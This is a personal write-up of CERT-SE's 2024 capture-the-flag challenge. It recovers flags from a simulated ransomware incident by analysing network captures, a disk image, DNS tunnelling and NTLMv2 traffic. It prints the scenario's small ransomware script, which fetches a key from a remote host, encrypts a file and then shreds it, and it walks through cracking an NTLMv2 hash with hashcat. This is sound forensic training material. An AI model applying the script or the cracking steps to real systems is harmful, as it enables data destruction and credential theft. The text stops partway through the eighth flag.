


# Notes going through CERT-SE CTF2024

This is my notes solving the CERT-SE CTF2024. Information about the CTF can be found at [CERT-SE CTF2024](https://cert.se/2024/09/cert-se-ctf2024.html).

I'll use my Windows sandbox [DFIRWS](https://github.com/reuteras/dfirws) this time instead of my regular choice Linux.

First start a DFIRWS sand box with network enabled and download the ZIP file from [here](https://cert.se/ctf/CERT-SE_CTF2024.zip).

Then verify the downloaded ZIP file and use **Select-String** instead of doing it manually:

```bash
> (Get-FileHash .\CERT-SE_CTF2024.zip).Hash | Select-String af05dc01984ca12cecadc65ea5216667c897791ce7ef8712466529184ae37346

AF05DC01984CA12CECADC65EA5216667C897791CE7EF8712466529184AE37346
```

The instructions from [CERT-SE CTF2024](https://www.cert.se/2024/09/cert-se-ctf2024.html) is as follows:

```text
<scenario>
A fictional organisation has been affected by a ransomware attack. It has been successful in setting up an emergency channel for communication and has access to parts of its infrastructure.

Can you find all the flags?
</scenario>

In the attached .zip file there is a network dump (PCAP) that contains a total of nine flags. Eight of these have the format “CTF[STRING]” and one has the format [STRING] (please add CTF in your answer, i.e. CTF[STRING]). Everything you need in order to find the flags is included in the network dump and can be solved without connection to the internet. You will not find any clues in any online references.
```

Unpack the ZIP file:

```bash
> unzip .\CERT-SE_CTF2024.zip
Archive:  .\CERT-SE_CTF2024.zip
  inflating: CERT-SE_CTF2024.pcap
```

There are two flags available directly with **Select-String** but will get them in a better way later.

```bash
> (Select-String "CTF\[[^]]+]" .\CERT-SE_CTF2024.pcap).Matches.Value | Get-Unique
CTF[AES128]
CTF[E65D46AD10F92508F500944B53168930]
```

## Flag 1 - IRC

First add Wireshark to the Sandbox. Since nothing is permanent in a Windows Sandbox only basic tools is installed during regular startup to minimize startup time. Tools installed can be customized.

```bash
> dfirws-install.sh -Wireshark
``` 

Start a new PowerShell window that has the updated PATH.

Usually there is IRC traffic in the CERT-SE CTFs so lets start there:

```bash
> tshark -r CERT-SE_CTF2024.pcap -n -Y "tcp.port == 6667" -Tfields -e irc.request -e irc.response | Select-String "^PRIVMSG"

PRIVMSG #emergency :hello
PRIVMSG #emergency :aaaah, at last, it's working!
PRIVMSG #emergency :well done setting up the emergency environment so fast!
PRIVMSG #emergency :Thanks. I'm glad we did a test run a couple of months ago
PRIVMSG #emergency :Yes, I agree
PRIVMSG #emergency :So what do we know so far, why is our production environment not accessible
PRIVMSG #emergency :Well, I'm in the data center now and the consoles I managed to look at is showing a ransom note.....
PRIVMSG #emergency :so it's that bad
PRIVMSG #emergency :yup
PRIVMSG #emergency :Have you found any clue to what group and ransom strain is used, if we are lucky enough there is a free decryptor available
PRIVMSG #emergency :I would not bet on it, but I'll transfer the ransom note to you shortly.
PRIVMSG An4lys3r :☺DCC SEND RANSOM_NOTE.gz 199 0 95285 221☺
PRIVMSG #emergency :SHA-256 checksum for /home/user/emergency_net/DCC/RANSOM_NOTE.gz (remote): 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909
PRIVMSG D3f3nd3r :☺DCC SEND RANSOM_NOTE.gz 167772170 40899 95285 221☺
PRIVMSG #emergency :Thanks, I'll have a look.
PRIVMSG #emergency :I managed to access our FPC system and it looks like it is untouched. I will try carving out pcaps from days / weeks before the encryption started from different segments.
PRIVMSG #emergency :good, put them on the ftp, I'll have a look at that later.
PRIVMSG #emergency :by the way, Christine came by and handed me a disk image from one of the clients, see if they left any clues on disk. I'll upload it to the ftp shortly.
PRIVMSG #emergency :We totally need external help, restoring and investigating this incident will be a massive task. You don't happen to have the contact info to Allsafe, I think our rep is called Elliot?
PRIVMSG #emergency :Agree, I already called them in. He is here now sharing some interesting stuff.
PRIVMSG #emergency :They picked up some info on a closed forum regarding our situation, someone posted a WORDLIST scraped from our public website. And they where ranting about recording network traffic from a
windows workstation called CTF-PC01. I'll upload the file to the ftp.
PRIVMSG #emergency :He also handed over a strange looking string CTF[E65D46AD10F92508F500944B53168930], does it make sense to you?
PRIVMSG #emergency :not really, but why don't you ask john?
PRIVMSG #emergency :Alright, I'll see what I can do with it.
PRIVMSG #emergency :To keep in mind, he also mention they have intel about a suspicious IP address involved in C2 and exfiltration activities lately, the IP is 195.200.72.82
```

Flag from the IRC chat conversation: **CTF[E65D46AD10F92508F500944B53168930]**

Checked the flag on [CrackStation](https://crackstation.net/) and this is a LM hash for *RickRolled* and similar.

From the chat we can also assume that the following files and items are interesting:

- RANSOM_NOTE.gz
- pcaps
- disk image (ftp - other files via FTP?)
- WORDLIST
- pcap from CTF-PC01
- IP 195.200.72.82

Flag 1 is **CTF[E65D46AD10F92508F500944B53168930]** (*RickRolled*)

## Flag 2 - IRC PASS

Looking in the PCAP after the second flag that was available in clear text we find that the flag **CTF[AES128]** is the password supplied with the *PASS* command in *IRC* when the users log in.

Flag 2 from the *PASS* command used for the *IRC* channel: **CTF[AES128]**

## FTP

Lets extract files from the FTP traffic in CERT-SE_CTF2024.pcap.

FTP traffic with the string *STOR*:

```bash
>  tshark -r CERT-SE_CTF2024.pcap -tad -n ftp | Select-String STOR

  314 2024-09-24 12:06:54.660439    10.0.0.20 → 10.0.0.50    FTP 87 Request: STOR corp_net1.pcap
 1127 2024-09-24 12:07:40.537810    10.0.0.20 → 10.0.0.50    FTP 87 Request: STOR corp_net2.pcap
 1582 2024-09-24 12:08:42.486627    10.0.0.20 → 10.0.0.50    FTP 85 Request: STOR disk1.img.gz
 1722 2024-09-24 12:09:36.514091    10.0.0.20 → 10.0.0.50    FTP 85 Request: STOR WORDLIST.txt
```

Extract these files. Used OpenAI to convert my regular bash syntax to PowerShell

```bash
# Read the pcap file and filter for FTP requests
$tsharkOutput = tshark -r CERT-SE_CTF2024.pcap -tad -n ftp | Select-String "Request: PORT"

# Extract port numbers
$ports = foreach ($line in $tsharkOutput) {
    if ($line -match "(\d+),(\d+)$") {
        [int]$port1 = $matches[1]
        [int]$port2 = $matches[2]
        $port1 * 256 + $port2
    }
}

foreach ($port in $ports) {
    # Find the corresponding TCP stream
    $stream = (tshark -r CERT-SE_CTF2024.pcap -Y "tcp.dstport == $port && ip.dst == 10.0.0.20 && tcp.flags.syn == 1" -T fields -e tcp.stream) -join "`n"

    if ($stream) {
        # Follow the TCP stream and process the output
        $followOutput = (tshark -r CERT-SE_CTF2024.pcap -q -z "follow,tcp,raw,${stream}")
        $processedOutput = ($followOutput | Select-String "\t[a-f0-9]+").Matches.Value -replace "^\s", ""
        $processedOutput = $processedOutput -replace "`n", ""

        # Use xxd from installed vim for simplicity
        $processedOutput | xxd -r -p > $stream
    }
}

Rename-Item 4 corp_net1.pcap
Rename-Item 6 corp_net2.pcap
Rename-Item 8 disk1.img.gz
Rename-Item 10 WORDLIST.txt
```

Check the files.

```bash
file .\corp_net1.pcap .\corp_net2.pcap .\disk1.img.gz .\WORDLIST.txt
.\corp_net1.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
.\corp_net2.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
.\disk1.img.gz:   gzip compressed data, was "disk1.img", last modified: Tue Sep 24 07:55:43 2024, from Unix, original size modulo 2^32 1073741824
.\WORDLIST.txt:   New Line Delimited JSON text data
```

Also check the extracted PCAP files for FTP transfers and files. We find three files in corp_net1.pcap

```bash
> tshark -r .\corp_net1.pcap -tad -n ftp | grep STOR
 2349 2024-09-04 07:58:49.523249 192.168.137.28 → 195.200.72.82 FTP 83 Request: STOR puzzle.exe
 3467 2024-09-04 08:21:39.984947 192.168.137.28 → 195.200.72.82 FTP 88 Request: STOR Recycle-Bin.zip
 3718 2024-09-04 08:21:50.411854 192.168.137.28 → 195.200.72.82 FTP 80 Request: STOR archive
```

Extract the files with the script above and we will have three new files *60*, *64* and *67*. Check the content and rename.

```
> file 60 64 67
60: PE32+ executable (GUI) x86-64, for MS Windows, 6 sections
64: Zip archive data, at least v2.0 to extract, compression method=store
67: gzip compressed data, from Unix, original size modulo 2^32 847
> mv 60 puzzle.exe
> mv 64 Recycle-Bin.zip
> mv 67 archive
```


## Flag 3 - disk1.img

Lets start with disk1.img.gz

```bash
> 7z x .\disk1.img.gz

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11

Scanning the drive for archives:
1 file, 1048462 bytes (1024 KiB)

Extracting archive: .\disk1.img.gz
--
Path = .\disk1.img.gz
Type = gzip
Headers Size = 20

Everything is Ok

Size:       1073741824
Compressed: 1048462
> mmls.exe .\disk1.img
DOS Partition Table
Offset Sector: 0
Units are in 512-byte sectors

      Slot      Start        End          Length       Description
000:  Meta      0000000000   0000000000   0000000001   Primary Table (#0)
001:  -------   0000000000   0000002047   0000002048   Unallocated
002:  000:000   0000002048   0002097151   0002095104   Win95 FAT32 (0x0c)
> fls -o 2048 .\disk1.img
r/r * 4:        secret
r/r * 6:        ransomware.sh
r/r * 8:        sslkeylogfile
r/r 11: secret.encrypted
v/v 33454995:   $MBR
v/v 33454996:   $FAT1
v/v 33454997:   $FAT2
V/V 33454998:   $OrphanFiles
> icat.exe -o 2048 .\disk1.img 6
#!/bin/bash
password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
shred secret
rm secret
rm sslkeylogfile
rm $0
```

Save all files and check file types:

```bash
> icat.exe -o 2048 .\disk1.img 4 > secret
> icat.exe -o 2048 .\disk1.img 6 > ransomware.sh
> icat.exe -o 2048 .\disk1.img 8 > sslkeylogfile
> icat.exe -o 2048 .\disk1.img 11 > secret.encrypted
> file secret ransomware.sh sslkeylogfile secret.encrypted
secret:           data
ransomware.sh:    Bourne-Again shell script, ASCII text executable
sslkeylogfile:    ASCII text
secret.encrypted: openssl enc'd data with salted password
```

Open *corp_net1.pcap* in **Wireshark** and add *sslkeylogfile* for TLS KEY. Searching for *http.host == whatyoulookingat.com* and then doing follow *http.stream* gives the following result:

```bash
GET /1.txt HTTP/1.1
Host: whatyoulookingat.com
User-Agent: curl/8.9.0
Accept: */*


HTTP/1.1 200 OK
Date: Tue, 03 Sep 2024 15:31:43 GMT
Content-Length: 17
Connection: Close
Server: INetSim HTTPs Server
Content-Type: text/plain

pheiph0Xeiz8OhNa
```

Now that we have the password *pheiph0Xeiz8OhNa* used in the script **ransomware.sh** we can decode the file *secret.encrypted* (the file secret has been destroyed by **ransomware.sh**):

```bash
> openssl.exe enc -d -aes-128-cbc -pass pass:pheiph0Xeiz8OhNa -in .\secret.encrypted -out .\secret.decrypted
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
> cat .\secret.decrypted
CTF[OPPORTUNISTICALLY]
```

Flag 3 from *disk1.img.gz* and *corp_net1.pcap*: **CTF[OPPORTUNISTICALLY]**

DFIRWS notes: Could also install Autopsy (**dfirws-install.ps1 -Autopsy**) if you prefer a GUI for looking at disk images. An other tool is OSFMount (**dfirws-install.ps1 -OFSMout**).

## Flag 4 - corp_net1.PCAP

While looking at *corp_net1.pcap* I saw suspicious DNS requests to the mentioned IP *195.200.72.82*. Looks like encoded trafic. Lets extract the DNS information that resolves to *127.0.0.1*.

```bash
> (((tshark.exe -r .\corp_net1.pcap -Y "ip.addr == 195.200.72.82 && dns" | Select-String " [^ ]+ A 127.0.0.1$")).Matches.Value -replace "^ ", "" -replace " A 127.0.0.1", "") -join ""
RFIE4RYNBINAUAAAAAGUSSCEKIAAAAUAAAAADYAIAIAAAAF2WNF3GAAAAABXGQSJKQEAQCG34FH6AAAABOKUSRCBKR4NV3O5LNJNWMAYQBIWBWA4FPXPFUQHMZUEUESZ23G37JDTTY5J2FUCF75CJRZY5635X3INAAMOXQZGAAAACBQAAEDAABAYAACBQAAQMAABAYAAICAACQEAAEAACBQAAEDAAAIGAACBQAAEDAABAYAACBQAAQEAAFAIAAIAAEDAAAIGAAAQMAAEDAAAIGAACBQAAEDAABAIAAKAQAAQAAIGAAAQMAABAYAAIGAAAQMAAEDAAAIGAACAQAAUBAABAAAQMAABAYAACBQAAQMAABAYAAIGAAAQMAAEBAABICAACAABAYAACBQAAEDAABAYAACBQAAQMAABAYAAICAACQEAAEAACBQAAEDAAAIGAACBQAAEDAABAYAACBQAAQEAAFAIAAIAAEDAAAIGAAAQMAAEDAAAIGAACBQAAEDAABAIAAKAQAAQAAIGAAAQMAABAYAAIGAAAQMAAEDAAAIGAACAQAAUBAABAAAQMAABAYAACBQAAQMAABAYAAIGAAAQMAAEBAABICAACAABAYAACBQAAQMAABAYAACBQAAQMAABAYAAICAACQEAAEAACBQAAEDAABAYAACBQAAEDAABAYAACBQAAQEAAFAIAAIAAEDAAAIGAACBQAAEDAAAIGAACBQAAWGOU5G5BRU7657X77V2CX7MPAX7B3AJZXTPW4MYN627SU5EYVDRB2N3ZPGMN75PRPZUDBAIBY6W64YFJY6XSSEVOWHG6ECZ76QW7IGRAXX7JPIMK4JKLBCK4GU6WPN5AZLNQB6QGXF7FD6PG7R2DMGVPIR7L5VHZOT2PTDYFDIJYB6AC3T3JH3OWVX3AXH34JL477X4PJCLDUAQIOCWPV77LKOJYI5JJHHU2ZHUCACYHTAL2O7RTWV6ANN2ODC7Y2WLDTPNK5P7B4XLZ7AOEDAI3243H6KOPDH6SU3QSR5L5H4FP65YXF7K5NEPX76B4R6ZKFSJVMX4L23IX2ND3WXSCPJ5VQXTY4E3ES42YZ4552RGV6BNLLGVPAQMJRGX53N3OKNRRI3HT5ENTPYM67I7DCAPOXEBNPAYU5OM47V763WYBRYXODK6X4JG7XBPLBJ6HZ5R34IB5MS2R543ULW263FFW5W2OKYEV57IJ357D673WL57MIP7BTL3X6JA5XKXYA5Z6Y4TZ24L63RDDYIPM5EJ3RSIWHL6SHOVMQV7326A663KLCQUFSYVWAM25JLQZRY3MZSJLL4TJ35VAMPWJIP76TCWIHWSU6XNTQBUAGLLJKK7ODTOLYXUOCOLSPA5ODBVI4MDOP7OHY2YX7VH3Y3RP3GMIDP47XHEDCYKQIDNQVGRHSR2NDQFUNN6FHUD6Q246MODND7DXYWLB7V423ZVQC2XZ3HSQM5HXQ3O475F342TWL2BXW7JN5KJNQ423HBQ5R3EVNNQ2RTOFNRQLMYG3C2RV5L5HICPOOZQD27XFOWBAM7DWMWCLDP3KIUDJ5ZUKREAE45TCTAFULWYKREGNMHKJAW7QINX7XF6XIQXZXQG54ZYSNESGDGQUGGSEPL2WDAPL2MK452JKMTWB2YAA4PQELAIQK3TS4YH4UPWNPNPP3TRY2JZH7KGETYGLXU5INVNYEFBQDJWRRRG6IWAJ3KIU6L24K6UAI3J24CVBV4DUH7L23MHISCFHW26MAWA7YVY5AOI56OEQ3MR6XYVNK52L3YO3N42YP5VRNCRCK3ABC2JIGPWJCG3NBPYOVH3RUQEV6XWXXIIGCBQNJVLPYASG4UK53PTK6H2CDCLF6U2MY276UXVY6GASEACNREKEZBUNQZHUHXOSTX664XYIZ7JHTYD4DWBMU2QASMOGQNEMDSB2P2YR76I4E5F5BYJJF6VGWHBT64R7YVG5QRS352N5NW5N2TT44RH4YTRDPP2JSEMYF5W5KDSSAKWYAJTHXMJH6A5BTWBY6ZQ3DQAHMMQZCGXDRBHCDVZ6QVUTL7DZW2EBAEZNS6WKWUQ75C7E32XFZ4M5JNJM7MYMHLTE47QJZSBDRHPRWEBF55VXNHBPYMXBM2PYA33HHK4MACYYANUZNRNOB4HASP5KFK7WGIG2BDY2PAFROCMWHZI5NU3DQ3G3N4SAYR4AGBCEPLCQZXNGTMPMQMARE4ENGGRG7MTWY3OTBVLLM7M6SNPHTWWIOAODSSJR4NZLA3LSVE7WFYBM35KL5Q2LPR4F2GW3QLDBUP5ISIW7L5TBBTB47QNRHHOHJXJIJGR4FW3QCMR6U2RWBA6VPZSBDYGUAZITPX5MNMOSN7HSK4YMFUDBK3QBGNNMIZVCIPOP6QBBDYPVZ576CME6MDSSM7L4KZMW7WBWYCHH7WLGCEO6OJNF53HDGLQRTD3YDLESXGXURLUPTQU3EMHTA4Y653RDYEDKPBC3L6LFQ27NXEVZU37L4RXGAHW44GZHYZC4EKV5P3YBTKS2XECCVC737GYHEJYA2SBIALGZJQ53CB7543ISMBPBHZNBR6DA6W7RCBEWYELBJ5Q5JG67TA4X2VCBT26DZYNQ3634BL4PQH5UNDA6HZ3NJOGFQIV6CVRHUXBZ3MYC366MOTMOKYPPNG2F4UUD6ZZOXORMGFQBP55TFZNFK3B6MHKGU34GLRW5J54CGEQKA5MYGSA7BVVB6BT3H6KSI4OKT7N5Z7NXSQ3MSCPPWPSOB7XU4D776SSWQRMXH6F232AX77YSDR75UY774IXYW7UJVDDKCBNKAT4PBBBND5H7ERQE4MWI6KQHX7GC6P4PTAGB3773YLJTO72HBIQ7IDDQPOP7X44WUZDKTG3GPRWH7T4WNXY4YG5XYOSYLM27UFKYF3DJ7FPZ7XQDJ6PVPFHXJCNUXHW5JIILOWN627QJOPZGTUYY3KFPY6ZNACZYPZP63PHBWFEMG4C77WBGMH4XEI35J7CYMXAWBCYBX7SN25VBEKVXON77KDQY7AEUU4KTQFRFB27WN4TEH7HA44Q66CRNMTA44HGKJ4MS3Z555UDXY22EHEDC5XZCYV5WDV5L53JYC6UX7PJPUKX2YH7BW7ZZNJ5PDQXDI6H4EO4MS6L4KUELW753WM7ZPMWDPUOACTUNB42UM6MR6BS25FHDEYPCWUPYMODR27ZVWXJYCJVX5QKOBGYNIZNRTREYBNMFIACN5D6XOMV6TZVPGPXCPMU37QMW7Z2W7F65MYCTZ6XNCYAIOZ6DT3YI6OAAOY2CFQHMGIBRV3QI2NQIMIQCBUAQV65QBAAEDAAAIGAACAAAA4AAABQAAQMAABAYAAIGAAAQMAAEDAAAIGAAAQMAAEAAABYAAADAABAYAACBQAAQMAABAYAAIGAAAQMAABAYAAIAAADQAAAGAACBQAAEDAABAYAACBQAAQMAABAYAACBQAAQAAAHAAAAMAAEDAAAIGAACBQAAEDAABAYAACBQAAEDAABAAAAOAAAAYAAIGAAAQMAAEDAAAIGAACBQAAEDAAAIGAACAAAA4AAABQAAQMAABAYAAIGAAAQMAAEDAAAIGAAAQMAAEAAABYAAADAABAYAACBQAAQMAABAYAAIGAAAQMAABAYAAIAAADQAAAGAACBQAAEDAABAYAACBQAAQMAABAYAACBQAAQAAAHAAAAMAAEDAAAIGAACBQAAEDAABAYAACBQAAEDAABAAAAOAAAAYAAIGAAAQMAAEDAAAIGAACBQAAEDAABAAAAOAAAA4AAABQAAQMAABAYAAIGAAAQMAAEDAAAIGAACAAAA4AAABYAAADAABAYAACBQAAQMAABAYAAIGAAAQMAAEAAABYAAADQAAAGAACBQAAEDAABAYAACBQAAQMAABAYAAIAAADQAAAHAAAAMAAEDAAAIGAACBQAAEDAABAYAACBQAAQAAAHAAAAOAAAAYAAIGAAAQMAAEDAAAIGAACBQAAEDAABAAAAOAAAA4AAABQAAQMAABAYAAIGAAAQMAAEDAAAIGAACAAAA4AAABYAAADAABAYAACBQAAQMAABAYAAIGAAAQMAAEAAABYAAADQAAAGAACBQAAEDAABAYAACBQAAQMAABAYAAIAAADQAAAHAAAAMAAEDAAAIGAACBQAAEDAABAYAACBQAAQAAAHAAAAMAAEDAAAIGAAAQMAAEDAAAIGAACBQAAEDAABAAAAOAAAAYAAIGAAAQMAABAYAAIGAAAQMAAEDAAAIGAACAAAA4AAABQAAQMAABAYAACBQAAQMAABAYAAIGAAAQMAAEAAABYAAADAABAYAACBQAAEDAABAYAACBQAAQMAABAYAAIAAADQAAAGAACBQAAEDAAAIGAACBQAAEDAABYAACBQAAQAAAHAAAAMAAEDAAAIGAAAQMAAEDAAAIGAACBQAAEDAABAAAAOAAAAYAAIGAAAQMAABAYAAIGAAAQMAAEDAAAIGAACAAAA4AAABQAAQMAABAYAACBQAAQMAABAYAAIGAAAQMAAEAAABYAAADAABAYAACBQAAEDAABAYAACBQAAQMAABAYAAIAAADQAAAGAACBQAAEDAAAJWBGAEAAABYAAADAABAYAACBQAAQMAABAYAAIGAAAQMAAEAAABYAAADQAAAGAACBQAAEDAABAYAACBQAAQMAABAYAAIAAADQAAAHAAAAMAAEDAAAIGAACBQAAEDAABAYAACBQAAQAAAHAAAAOAAAAYAAIGAAAQMAAEDAAAIGAACBQAAEDAABAAAAOAAAA4AAABQAAQMAABAYAFU6ELWSNASK
```

With [CyberChef](https://github.com/gchq/CyberChef that is available in DFIRWS we can decode this string. First check with the *magic* function in CyberChef and use the suggested recpi. See image below.



We now have flag 4: **CTF[TOPPALUA]**

## Flag 5 - archive

Lets start looking on the file archive now:

```bash
file .\archive
.\archive: gzip compressed data, from Unix, original size modulo 2^32 847
```

After doing a lot of **7z x <filename>** and one **tar xvf <filename>** we end up with the following files and the final file containing an abtly named flag :)

```bash
> dir

    Directory: C:\Users\WDAGUtilityAccount\Desktop\readwrite\2024\resources

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d----          2024-10-02    05:58                extracted
-a---          2024-10-01    10:23            860 archive
-a---          2024-10-01    10:23            847 archive~
-a---          2024-10-01    10:23            824 archive~~
-a---          2024-10-01    10:23            801 archive~~~
-a---          2024-10-01    10:23            778 archive~~~~
-a---          2024-10-01    10:23            755 archive~~~~~
-a---          2024-10-01    10:23            732 archive~~~~~~
-a---          2024-10-01    10:23            716 archive~~~~~~~
-a---          2024-10-01    10:23            693 archive~~~~~~~~
-a---          2024-10-01    10:23            670 archive~~~~~~~~~
-a---          2024-10-01    10:23          10240 archive~~~~~~~~~~
-a---          2024-09-24    12:15       34200629 CERT-SE_CTF2024.pcap
-a---          2024-10-01    07:57       31542062 CERT-SE_CTF2024.zip
-a---          2024-10-01    08:02       23196455 corp_net1.pcap
-a---          2024-10-01    08:02        9689004 corp_net2.pcap
-a---          2024-09-24    09:55     1073741824 disk1.img
-a---          2024-10-01    08:02        1048462 disk1.img.gz
-a---          2024-08-20    10:54            519 input
-a---          2024-08-20    10:54            208 input_1
-a---          2024-08-20    10:54            185 input_1~
-a---          2024-08-20    10:54            167 input_1~~
-a---          2024-08-20    10:54            144 input_1~~~
-a---          2024-08-20    10:54            130 input_1~~~~
-a---          2024-08-20    10:54            107 input_1~~~~~
-a---          2024-08-20    10:54             87 input_1~~~~~~
-a---          2024-08-20    10:54             69 input_1~~~~~~~
-a---          2024-08-20    10:54             52 input_1~~~~~~~~
-a---          2024-08-20    10:54             36 input_1~~~~~~~~~
-a---          2024-08-20    10:54             16 input_1~~~~~~~~~~
-a---          2024-08-20    10:54            496 input~
-a---          2024-08-20    10:54            481 input~~
-a---          2024-08-20    10:54            458 input~~~
-a---          2024-08-20    10:54            435 input~~~~
-a---          2024-08-20    10:54            412 input~~~~~
-a---          2024-08-20    10:54            393 input~~~~~~
-a---          2024-08-20    10:54            370 input~~~~~~~
-a---          2024-08-20    10:54            347 input~~~~~~~~
-a---          2024-08-20    10:54            355 input~~~~~~~~~
-a---          2024-08-20    10:54          10240 input~~~~~~~~~~
-a---          2024-10-01    10:23       19108273 puzzle.exe
-a---          2024-10-01    10:23        1613748 Recycle-Bin.zip
-a---          2024-10-01    13:26           2114 WORDLIST.txt

(default) PS C:\Users\WDAGUtilityAccount\Desktop\readwrite\2024\resources> more input_1~~~~~~~~~~
CTF[IRRITATING]
```

And we have flag 5: **CTF[IRRITATING]**

## Flag 6 - RANSOM_NOTE

What can we find in the RANSOM_NOTE?

```bash
> tshark -r CERT-SE_CTF2024.pcap -Y "ip.src == 10.0.0.20 && ip.dst == 10.0.0.10 &&  data.len>0" -T fields -e data | xxd -r -p > RANSOM_NOTE.gz
> 7z l .\RANSOM_NOTE.gz

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11

Scanning the drive for archives:
1 file, 95285 bytes (94 KiB)

Listing archive: .\RANSOM_NOTE.gz

--
Path = .\RANSOM_NOTE.gz
Type = gzip
Headers Size = 18

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-08-29 12:19:28 .....       279943        95285  why_not
------------------- ----- ------------ ------------  ------------------------
2024-08-29 12:19:28             279943        95285  1 files
> 7z x .\RANSOM_NOTE.gz

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11

Scanning the drive for archives:
1 file, 95285 bytes (94 KiB)

Extracting archive: .\RANSOM_NOTE.gz
--
Path = .\RANSOM_NOTE.gz
Type = gzip
Headers Size = 18

Everything is Ok

Size:       279943
Compressed: 95285
```

Check for a flag:

```bash
> (Select-String "CTF\[[^[]+\]" .\why_not).Matches.Value
CTF[OR]
```

Flag 6: **CTF[OR]**

## Flag 7 - CTF-PC01

Check the *corp_net2.pcap* for traffic to and from *CTF-PC01*. There is *NTLMv2 AUTH* traffic and since we have already found a file named *WORDLIST.txt* this can be relevant.

Reading [Cracking an NTLMv2 hash](https://www.801labs.org/research-portal/post/cracking-an-ntlmv2-hash/) and getting the relevant data from the PCAP we can create the file:

> CTF::LAB:fe26bf30955b64d7:a406a1570d0391d358354bb21df7d12e:0101000000000000158bece036fada0136c00153f7ab788b00000000020008004d00550044004a0001001e00570049004e002d0035004600560037004d004e0055004200410030004b00040014004d00550044004a002e004c004f00430041004c0003003400570049004e002d0035004600560037004d004e0055004200410030004b002e004d00550044004a002e004c004f00430041004c00050014004d00550044004a002e004c004f00430041004c000800300030000000000000000000000000200000fd6f62357ae25314e0b8f63ab17e5d1821479e68ec22e7ee70827eadb2f393200a001000000000000000000000000000000000000900200048005400540050002f00640063006300300031002e006c006f00630061006c000000000000000000

Running **dfirws-install.ps1 -Hashcat** and manually installing (will add it to default install of Hashcat) *Intel® CPU Runtime for OpenCL™ Applications* we can run (in a new shell):

```bash
> cp .\WORDLIST.txt 'C:\Program Files\hashcat\'
> cp .\crackme.txt 'C:\Program Files\hashcat\'
> cd 'C:\Program Files\hashcat\'
> .\hashcat.exe -m 5600 .\crackme.txt .\WORDLIST.txt -o cracked.txt
> cat .\cracked.txt
> CTF::LAB:fe26bf30955b64d7:a406a1570d0391d358354bb21df7d12e:0101000000000000158bece036fada0136c00153f7ab788b00000000020008004d00550044004a0001001e00570049004e002d0035004600560037004d004e0055004200410030004b00040014004d00550044004a002e004c004f00430041004c0003003400570049004e002d0035004600560037004d004e0055004200410030004b002e004d00550044004a002e004c004f00430041004c00050014004d00550044004a002e004c004f00430041004c000800300030000000000000000000000000200000fd6f62357ae25314e0b8f63ab17e5d1821479e68ec22e7ee70827eadb2f393200a001000000000000000000000000000000000000900200048005400540050002f00640063006300300031002e006c006f00630061006c000000000000000000:[RHODE_ISLAND_Z]
```

This is the flag without CTF string in the begining, ie *[RHODE_ISLAND_Z]* which becomes **CTF[RHODE_ISLAND_Z]**.

Flag 7: **CTF[RHODE_ISLAND_Z]**

## Flag 8 - puzzle.exe

What can we find in *puzzle.exe*? First do some quick tests of the file.

```bash
> capa .\puzzle.exe
┌────────────┬─────────────────────────────────────────────────────────────────────────────────────┐
│ md5        │ a5d71a2ff928cd7b3875d6e942f728d3                                                    │
│ sha1       │ 93c29c51c636512a21af5c1553caef72e4e794ef                                            │
